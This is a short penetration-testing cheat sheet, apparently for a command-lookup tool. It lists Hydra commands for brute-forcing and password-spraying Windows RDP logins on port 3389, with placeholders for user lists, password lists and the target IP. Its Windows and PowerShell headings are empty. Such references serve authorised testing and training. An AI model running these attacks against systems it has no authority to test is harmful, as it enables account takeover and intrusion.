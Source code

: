 # windows
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY  

# powershell
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY   #tag/powershell 

# hydra

#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 

## Hydra - rdp - userlist and password list
```bash
hydra -L <userlist> -P <passlist> rdp://<ip>
```

## Hydra - rdp - user and password list

```bash
hydra -l <user> -P <passlist> rdp://<ip>
```

## Hydra - rdp - spray

```bash
hydra -L <userlist> -p <password> rdp://<ip>
```